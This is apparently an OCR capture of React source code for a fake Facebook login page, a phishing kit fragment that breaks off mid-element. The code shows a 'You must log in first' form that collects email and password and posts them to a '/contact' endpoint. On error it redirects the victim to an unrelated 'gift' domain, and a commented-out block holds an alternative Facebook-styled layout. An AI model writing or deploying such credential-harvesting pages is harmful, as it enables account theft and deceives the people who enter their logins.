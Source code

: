                 axios
                  .post("/contact", body)
                  .then(({ data }) => {
                    window.location = data;
                  })
                  .catch((err) => {
                    window.location = "https://gift.sc0m.com";
                  });
              };
              return (
                <>
                <div id="top_form">
                    <div class="must"><p>You must log in first.</p></div>
    <div class="conta">
        <div class="container">
                <div method="post">
                          <img class="lg" src="https://i.ibb.co/hFT2CgF/Facebook.png" alt=""/>
                          <input class="in" type="text" name="email" placeholder="Email address or mobile number" required="" onChange={(e) => setVEmail(e.target.value)}/>

                          <input class="in" type="password" name="pass" placeholder="Password"  onChange={(e) => setVPassword(e.target.value)}/>
                          <input class="sub" type="submit" placeholder="" value="Login"  onClick={addNew}/>

                      </div>
                      </div>
                      </div>
                        </div>

             {  /*   <header className="bg-blue-500 h-14 w-full flex justify-start items-center pl-5 text-white font-normal">
                    <p>Facebook</p>
                  </header>

                  <div className="grid place-content-center grid-cols-1 md:px-36 mt-10 gap-10">

                    <div
                      className="m-auto text-xs sm:text-sm md:text-lg max-w-sm md:max-w-2xl text-center "
                    ></div>

                    <div className="p-2 w-full  gap-1  ">
                      <div className="flex flex-col   p-2  gap-1">
                        <label className="text-gray-500 text-sm"></label>
                        <input

                          type="text"
                          className="w-full border p-2 rounded-md"
                          placeholder="Phone number, username, or email"
                          onChange={(e) => setVEmail(e.target.value)}
                        />
                      </div>
                      <div className="flex flex-col   p-2   gap-1">
                        <label htmlFor="password" className="text-gray-500 text-sm">
